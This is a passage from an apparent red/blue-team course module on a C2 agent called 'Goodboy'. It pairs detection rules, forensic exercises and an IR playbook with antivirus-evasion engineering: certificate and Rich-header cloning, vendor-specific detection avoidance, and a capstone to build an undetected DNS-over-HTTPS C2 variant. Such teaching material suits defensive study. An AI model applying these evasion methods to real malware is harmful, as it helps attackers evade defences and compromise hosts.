<summary>Approach</summary>

```python
# Step 1: Compute key
key = bytearray(32)
val = 0x5A3CF7E1
for i in range(32):
    val = (val * 0x6C7AC8E3 + 0x4B2D9F71) & 0xFFFFFFFF
    key[i] = (val >> 16) & 0xFF

# Step 2: Search dump
with open("process_dump.dmp", "rb") as f:
    data = f.read()
offset = data.find(bytes(key))
print(f"Key found at offset: 0x{offset:X}")

# Step 3: Decrypt captured body
captured_hex = "a3f5b8d1..."  # from Wireshark
encrypted = bytes.fromhex(captured_hex)
decrypted = bytes(b ^ key[i % 32] for i, b in enumerate(encrypted))
print(decrypted.decode())
```
</details>

**Exercise BT-3: Write a Suricata rule for this C2**

The agent's HTTP traffic has distinctive patterns. Write a Suricata rule that detects the beacon with low false positive rate.

<details>
<summary>Rule</summary>

```
alert http any any -> any 8443 (
    msg:"Goodboy C2 Agent Beacon Detected";
    flow:established,to_server;
    http.method; content:"POST";
    http.uri; content:"/api/v1/telemetry";
    http.content_type; content:"application/json";
    http.request_body; pcre:"/^[0-9a-f]{20,}$/";
    threshold:type both, track by_src, count 3, seconds 300;
    classtype:trojan-activity;
    sid:2026001; rev:1;
    reference:url,github.com/goodboy-framework;
)
```

Key matching logic:
- POST to `/api/v1/telemetry` (fixed path)
- Content-Type `application/json` (claims JSON)
- Body matches `^[0-9a-f]{20,}$` (hex-only, 20+ chars — NOT valid JSON)
- Threshold: 3 matches in 5 minutes from same source (catches periodicity)
</details>

**Exercise BT-4: Timeline reconstruction from forensic artifacts**

An IR team finds these artifacts on a workstation:
- `%TEMP%\appcfg.dat` (contents: `v=47`, modified 2026-03-28 01:30:00)
- `%TEMP%\healthcfg.dat` (contents: `cfg=12345,sys=67890`, modified 2026-03-28 01:30:02)
- Prefetch: `SECHEALTH.EXE-A1B2C3D4.pf` (last run: 2026-03-28 01:29:45, run count: 1)
- Sysmon Event 3: 87 connections to 10.0.0.50:8443 from sechealth.exe, first at 01:32:10, last at 02:55:47
- No registry modifications, no scheduled tasks, no persistence

Reconstruct the timeline and answer:
1. When did the agent start?
2. How long was the startup delay?
3. How long did the browser-gate block?
4. How many beacon cycles completed?
5. Why did the agent stop?

<details>
<summary>Timeline</summary>

```
01:29:45  Process started (Prefetch timestamp)
01:30:00  init_app_context() wrote appcfg.dat (2s after Prefetch)
01:30:02  healthcfg.dat written (gather_system_info + validate_app_settings)
01:30:02 - 01:32:10  Gap = 128 seconds
          - GUI lifecycle: ~1 second
          - Startup delay: 5-15 seconds (say ~10s)
          - Browser gate: ~128 - 10 = ~118 seconds waiting for tab switches
01:32:10  First beacon (browser gate passed)
02:55:47  Last beacon
          Duration: 83 minutes, 37 seconds
          87 connections / 83.6 minutes = ~1.04 connections/minute = ~57.6s average interval
          (Consistent with 60s base + 30% jitter)
02:55:47+ Agent stopped — either:
          a) "kill" command received
          b) 10 consecutive failures (C2 went down)
          c) Browser was closed and never reopened

No persistence = agent ran once and terminated. Single Prefetch run count confirms this.
```
</details>

### Incident Response Playbook

If you suspect this C2 agent on a host:

```
PHASE 1: IDENTIFY (do NOT alert the attacker)
  1. Check running processes for unsigned PE with GUI subsystem but no window
     > wmic process where "ExecutablePath is not null" get Name,ExecutablePath,ProcessId
  2. Check network connections for periodic outbound on non-standard ports
     > netstat -anob | findstr 8443
  3. Check Sysmon Event 3 for connection patterns
  4. Check %TEMP% for appcfg.dat / healthcfg.dat

PHASE 2: COLLECT (preserve volatile evidence)
  1. Memory dump of the suspicious process
     > procdump -ma <PID> agent_dump.dmp
  2. Full packet capture for 10 minutes
     > netsh trace start capture=yes tracefile=c:\evidence\trace.etl
  3. Export Sysmon logs
     > wevtutil epl Microsoft-Windows-Sysmon/Operational c:\evidence\sysmon.evtx
  4. Copy the binary
     > copy "<path>\sechealth.exe" c:\evidence\

PHASE 3: CONTAIN
  1. Kill the process
     > taskkill /F /PID <PID>
  2. Block the C2 IP at firewall
  3. Quarantine the binary

PHASE 4: ANALYZE
  1. Extract XOR key from memory dump (known PRNG, compute key)
  2. Decrypt all captured traffic
  3. Identify all commands executed and data exfiltrated
  4. Check for lateral movement indicators
  5. Determine initial access vector

PHASE 5: REMEDIATE
  1. Delete binary, temp files, Prefetch entry
  2. Scan for similar binaries (YARA rule from Section 7)
  3. Monitor for reconnection attempts (same C2 IP/port)
  4. Check other hosts for same indicators
```

---

## Section 15: Real-World APT Parallels

Every technique in this agent has been observed in nation-state and criminal operations. Understanding these parallels transforms academic knowledge into threat intelligence.

### Browser-Gate in the Wild

| APT / Malware | Technique | Similarity |
|---|---|---|
| **Turla (Snake/Uroburos)** | Checks for user activity via mouse movement + foreground window changes before C2 comms | Near-identical to our tab-activity gate |
| **APT32 (OceanLotus)** | WINDSHIELD backdoor waits for browser process before initiating DNS tunneling | Same browser-gate concept, different channel |
| **Emotet** | Checks for running Outlook/browser before downloading payloads | Activity-gated payload delivery |
| **QakBot** | Delays execution until user interaction detected via GetForegroundWindow polling | Same API, same logic |

The browser-gate is not novel — it's an industry pattern. What's notable is how few sandbox environments account for it. ANY.RUN added "human simulation" in 2025 specifically because so many malware families gate on user activity.

### Beacon Jitter: Mathematical Detection

The agent uses 30% uniform jitter: `interval = base +/- (base * 0.3 * random)`. This creates a uniform distribution between 42-78 seconds.

**Why defenders can detect this statistically:**

```
Perfect periodic (0% jitter):
  Intervals: [60, 60, 60, 60, 60]
  Stddev: 0.0    ← trivially detectable

Our agent (30% jitter):
  Intervals: [52, 71, 45, 68, 58, 73, 47, 65]
  Mean: 59.9
  Stddev: 10.7
  Coefficient of Variation (CV): 17.8%
  ← Still detectable: CV is suspiciously consistent

Legitimate browsing:
  Intervals: [2, 45, 1, 180, 3, 600, 15, 0.5]
  Mean: 105.8
  Stddev: 199.3
  CV: 188.4%
  ← Highly variable, no pattern
```

The key insight: **jittered beacons have LOW coefficient of variation** (typically 15-25%). Legitimate traffic has HIGH CV (100-300%). A simple CV threshold separates the two:

```python
# Beacon detection via Coefficient of Variation
def detect_beacon(intervals, cv_threshold=40):
    mean = sum(intervals) / len(intervals)
    stddev = (sum((x - mean)**2 for x in intervals) / len(intervals)) ** 0.5
    cv = (stddev / mean) * 100 if mean > 0 else 0
    return cv < cv_threshold  # Low CV = likely beacon
```

Advanced detection uses **autocorrelation**: compute the autocorrelation function of inter-arrival times. Beacons show a strong peak at lag=1 (each interval correlates with the next). Random traffic shows no autocorrelation.

**Exercise 15.1:** Given these intervals from a network log: `[58, 72, 45, 63, 55, 70, 48, 66, 52, 71]`, calculate the CV and determine if this is a beacon.

<details>
<summary>Answer</summary>

```
Mean: 60.0
Stddev: 9.4
CV: 15.7%
```

CV of 15.7% is well below the 40% threshold — this is almost certainly a jittered beacon with ~60s base interval and ~30% jitter. The mean (60.0) and range (45-72) match the expected 42-78 second band.
</details>

### DNS C2: The Road Not Taken

This agent uses HTTP over TCP. An alternative approach uses DNS queries as the C2 channel:

```
DNS C2 Architecture:
  Agent -> DNS query: <encoded-data>.c2domain.com
  DNS server -> TXT record: <encoded-response>

Advantages:
  - DNS is rarely blocked (firewall hole in nearly every network)
  - Looks like normal DNS resolution
  - Works through most proxies and firewalls

Disadvantages:
  - Very low bandwidth (~200 bytes per query)
  - DNS logging is increasingly common (Sysmon Event 22, PassiveDNS)
  - DNS-over-HTTPS detection is maturing
  - Domain registration creates a paper trail

Detection:
  - High volume of TXT queries to a single domain
  - Unusually long subdomain labels (base64-encoded data)
  - DNS queries with high entropy in the subdomain
  - Queries to newly-registered or low-reputation domains
```

The Goodboy agent avoids DNS C2 because the DNS library code mass would be significant, and DNS beaconing has a higher detection rate than HTTP in modern environments with DNS logging enabled.

### Domain Fronting Deep Dive

Domain fronting routes C2 traffic through a CDN to disguise the true destination:

```
Without domain fronting:
  TLS SNI: c2.evil.com         ← visible to network monitors
  HTTP Host: c2.evil.com       ← visible after TLS inspection
  Destination: 1.2.3.4         ← C2 server IP

With domain fronting:
  TLS SNI: cdn.microsoft.com   ← looks legitimate
  HTTP Host: c2.evil.com       ← hidden inside encrypted tunnel
  Destination: CDN edge node   ← shared infrastructure

  The CDN routes the request to c2.evil.com based on the Host header,
  but the network monitor only sees traffic to cdn.microsoft.com.
```

**Status (2026):** Major CDN providers (CloudFront, Cloudflare, Google Cloud) have disabled domain fronting. Azure still partially allows it. The technique has evolved into **domain borrowing** (using abandoned Azure subdomains) and **CDN tunneling** (abusing CDN worker functions).

**Detection:** TLS SNI vs HTTP Host mismatch requires TLS inspection. JA3 fingerprinting can identify non-browser TLS clients even through CDNs.

---

## Section 16: Cross-Stage Technique Map

This agent uses concepts from every previous stage. Here is how the 15 stages connect:

```
Stage 01 (Basic XOR)
  └─> XOR encryption in apply_mask() — same principle, different key derivation

Stage 02 (XOR Cryptanalysis)
  └─> Known-plaintext vulnerability in Challenge 3 — same attack applies

Stage 03 (AES + Jigsaw)
  └─> The common library's RC4-based crypto (mislabeled "AES" in source) triggered
      ESET GenKryptik when combined with MBA XOR key fragments in Stage 15's context
      Lesson: complex crypto implementations can be WORSE for evasion than simple XOR

Stage 04 (API Hashing)
  └─> We tried hash-based WinHTTP resolution (v5) — it didn't help
      Machine ID uses a custom multiplicative hash (same concept, different target)

Stage 05-06 (Process Injection / APC)
  └─> NOT used — the agent runs its own code, no injection needed
      Lesson: simpler architecture = fewer detection surfaces

Stage 07-08 (Direct/Indirect Syscalls)
  └─> NOT used — agent uses standard Win32 APIs
      Lesson: syscalls are unnecessary when IAT entries are benign

Stage 09 (Anti-Debug)
  └─> NOT used — browser-gate provides superior analysis resistance
      Anti-debug is ML-benign per Stage 09, but adds complexity the agent doesn't need
      The agent relies on the browser-gate instead

Stage 10 (Anti-Sandbox)
  └─> Browser-gate IS the sandbox evasion — hardware checks removed
      Triple bypass (browser + tabs + foreground) is more effective
      than CPU/RAM/disk checks which sandboxes now fake

Stage 11 (Persistence)
  └─> Deliberately OMITTED — persistence code added 124KB to Stage 14
      and pushed ML classifiers over thresholds
      Commands "i" and "r" are stubs, returning "0" and "1"

Stage 12 (Module Stomping)
  └─> NOT used — no shellcode to inject into modules
      The agent IS the payload

Stage 13 (Sleep Obfuscation)
  └─> NOT used — no payload to encrypt during sleep
      The agent's memory contains only its own stack/heap (no shellcode)

Stage 14 (Combined Loader)
  └─> This agent replaces the combined loader's single-execution model
      with an indefinite beacon loop
      The common library dependency (which Stage 14 used) was the
      detection vector that forced the self-contained architecture
```

### The Subtraction Pattern

```
Techniques from Stages 01-14 that WERE NOT carried forward:

  [-] AES encryption (Stage 03)        → caused GenKryptik signature
  [-] API hashing (Stage 04)           → PEB walks add ML signals
  [-] Process injection (Stages 05-06) → unnecessary, adds code mass
  [-] Direct/indirect syscalls (07-08) → unnecessary, adds complexity
  [-] Anti-debug (Stage 09)            → IS a malware signature
  [-] Hardware sandbox checks (10)     → sandboxes now fake them
  [-] Persistence (Stage 11)           → 124KB of offensive code mass
  [-] Module stomping (Stage 12)       → no shellcode to stomp
  [-] Sleep obfuscation (Stage 13)     → no payload to encrypt
  [-] Combined chain (Stage 14)        → common library was the detection

Techniques that WERE carried forward:

  [+] XOR encryption (Stage 01)        → simplest, smallest code footprint
  [+] Browser detection (Stage 14)     → evolved into browser-gate
  [+] Benign code mass (Stage 09)      → expanded to 4 framework modules
  [+] PE metadata manipulation         → expanded to Rich header + versions
  [+] Authenticode cloning             → changed donor from svchost to AFH
```

The 15-stage progression teaches you everything — and then Stage 15 teaches you that **most of it shouldn't be used simultaneously**. The art is knowing which techniques to combine and which to leave behind.

---

## Section 17: Capstone Challenge — Build Your Own Variant

You now have complete knowledge of the agent's architecture, protocol, evasion techniques, and detection surfaces. This capstone challenge tests your ability to apply that knowledge independently.

### Challenge: Create a DNS-over-HTTPS (DoH) Variant

**Objective:** Modify the c2-agent to use DNS-over-HTTPS as the C2 channel instead of raw HTTP. The agent should:

1. Encode check-in data as a DNS TXT query to `<hex>.yourdomain.com`
2. Send the query via HTTPS POST to `https://1.1.1.1/dns-query` (Cloudflare DoH)
3. Receive commands in the TXT response
4. Keep the browser-gate, jitter, and dead-man switch intact

**Constraints:**
- Must still achieve 0/71+ on VirusTotal
- Must not add more than 50KB to binary size
- Must use only std::net (no additional crates)

**Design questions to answer:**
1. How do you encode the check-in JSON into DNS-safe format (max 253 chars per name, max 63 chars per label)?
2. How do you parse a DNS wire-format TXT response from raw bytes?
3. What is the maximum data throughput via DoH? (hint: calculate from DNS label limits)
4. How does the detection surface change? (hint: DoH to 1.1.1.1 is common, but query patterns may not be)
5. Would the PE-level evasion (Rich header, versions, Authenticode) still be needed?

<details>
<summary>Design Hints</summary>

**Encoding:** Split hex-encoded XOR ciphertext into 63-char DNS labels:
```
a3f5b8d1e2f4...63chars...label1.a3f5b8d1...63chars...label2.c2domain.com
```
Maximum data per query: ~180 bytes of raw data (after hex encoding into 4 labels).

**DoH request format:**
```
POST https://1.1.1.1/dns-query HTTP/1.1
Content-Type: application/dns-message
Accept: application/dns-message

<binary DNS query for TXT record>
```

**DNS wire format:** Build the query manually:
- 12-byte header (ID, flags, qdcount=1)
- Question section: encoded domain name + type=TXT(16) + class=IN(1)

**Throughput:** ~180 bytes payload per query, one query per beacon (60s) = ~3 bytes/second. Enough for command dispatch, too slow for file exfiltration.

**Detection shift:** Network monitors see HTTPS to 1.1.1.1 (Cloudflare DNS). This is extremely common — millions of legitimate DoH queries daily. The detection challenge moves from network-level to endpoint-level (why is this process making DNS queries it doesn't need?).
</details>

### Challenge: Blue Team Response

After completing the DoH variant, write:
1. A Sigma rule that detects DoH beaconing from non-browser processes
2. A Python script that decodes captured DoH queries and extracts the C2 data
3. An IR playbook for DoH-based C2 (how does containment differ from plain HTTP?)

---

## Section 18: Knowledge Verification

Test your understanding before declaring the module complete.

### Quick-Fire Questions (answer without looking back)

1. What PRNG constants derive the session key? What's the seed?
2. What character escapes does the agent apply before embedding results in JSON?
3. Why does the agent use GetTickCount for jitter instead of RDTSC?
4. What is the maximum time the agent runs after C2 goes offline?
5. Which PE version fields were patched and to what values?
6. Why was the svchost.exe Authenticode cert replaced?
7. What single-character command code triggers process enumeration?
8. Name 3 browser executables the agent monitors.
9. How many unique window titles are required to pass the browser-gate?
10. What is the Content-Type header the agent sends, and why is it detectable?

<details>
<summary>Answers</summary>

1. Seed: `0x5A3CF7E1`, mul: `0x6C7AC8E3`, add: `0x4B2D9F71`
2. `\` -> `\\`, `"` -> `\"`, `\n` -> `\n`, `\r` -> `\r`, `\t` -> `\t`
3. RDTSC was replaced with GetTickCount to avoid inline assembly (RDTSC is ML-benign in loader binaries per Stage 09, but inline asm adds code complexity the C2 agent doesn't need).
4. ~13 minutes (10 retries x 78s max jitter)
5. Linker 14.38, OS version 10.0, Subsystem version 10.0
6. Fortinet GenCBL specifically flags svchost cert on non-genuine binaries. ApplicationFrameHost.exe cert provides same ML benefit without Fortinet detection.
7. `l`
8. Any 3 of: chrome.exe, msedge.exe, firefox.exe, brave.exe, opera.exe, iexplore.exe
9. 3 unique titles
10. `application/json` — detectable because the body is hex-only `[0-9a-f]+`, not valid JSON
</details>

### Scenario-Based Assessment

**Scenario:** You're the SOC analyst. At 14:32, Sysmon shows a new process `sechealth.exe` (Event 1). No network activity for 3 minutes. At 14:35, the user opens Chrome. At 14:37, outbound TCP connections begin to an internal IP on port 8443, repeating every ~55 seconds. The process loads ws2_32.dll (Event 7) but NOT winhttp.dll or wininet.dll.

Answer these in order:
1. Is this process suspicious? List 3 indicators.
2. What is your confidence level (low/medium/high) that this is the Goodboy agent?
3. What additional data do you collect before taking action?
4. How do you distinguish this from a legitimate health monitoring service?
5. Write the exact Splunk query to pull all Sysmon Event 3 connections from this process.

<details>
<summary>Model Answers</summary>

1. **Three indicators:** (a) 3-minute delay between process start and first network activity = startup delay + browser-gate waiting, (b) periodic connections every ~55s to non-standard port = jittered beacon, (c) loads ws2_32 but NOT winhttp/wininet = raw socket HTTP, unusual for a "health service"

2. **High confidence.** The combination of: startup delay + activity triggered by browser launch + periodic connections on non-standard port + ws2_32 without HTTP library + process name matching PE metadata = all consistent with Goodboy agent profile.

3. **Additional data:** (a) Memory dump of the process (extract XOR key), (b) Full packet capture of port 8443 traffic (verify hex-only body), (c) File hash of sechealth.exe (check VT, check YARA rules), (d) Sysmon Event 7 full DLL list, (e) Prefetch data for execution history

4. **Distinguish from legitimate:** (a) Check digital signature — Goodboy has a cloned invalid signature, (b) Check file location — legitimate sechealth.exe lives in `C:\Windows\System32\`, (c) Check Rich header — Goodboy has cloned ApplicationFrameHost entries, (d) Run `strings` — legitimate binaries don't have PRNG constants 0x6C7AC8E3

5. ```spl
index=sysmon EventCode=3 Image="*sechealth.exe" Initiated=true
| sort _time
| table _time, SourceIp, SourcePort, DestinationIp, DestinationPort, Protocol
```
</details>

---

## Lab Environment Notes

### Required Setup

- Windows 10/11 VM with all tools from previous modules
- Python 3 for mock C2 server
- Wireshark for traffic capture
- A web browser (Chrome, Edge, Firefox, Brave)

### Testing the Agent

1. Start mock C2: `python mock_c2.py`
2. Run `c2-agent.exe`
3. Open browser, switch between 3+ tabs
4. Wait ~60s for first check-in
5. Type commands: `whoami`, `dir`, `list`, `sleep 10000`, `kill`

### Common Misconceptions

| Belief | Reality |
|--------|---------|
| "More evasion modules = better evasion" | Every module adds code mass that ML aggregates. The c2-agent has ZERO modules from the common library. |
| "Rich header re-keying hides the compiler" | Re-keying only changes the XOR key. The comp.id entries (build versions) still fingerprint Rust. You must REPLACE entries, not re-key. |
| "Authenticode signatures are interchangeable" | Fortinet specifically flags svchost.exe cert on non-genuine binaries. Donor selection matters. |
| "Dynamic API loading is stealthier than static" | For HTTP specifically, dynamic loading (LoadLibrary+GetProcAddress) triggers GenCBL. Static IAT imports are less suspicious because every normal app has them. |
| "Raw TcpStream means no detection surface" | The hex-only body + periodic timing + fixed path are all detectable. TcpStream just removes the HTTP-library-specific signatures. |
| "Binary size doesn't matter" | Size is the #1 EMBER feature. At 400KB you're in malware range. At 660KB with std library code, you cross into benign territory. |
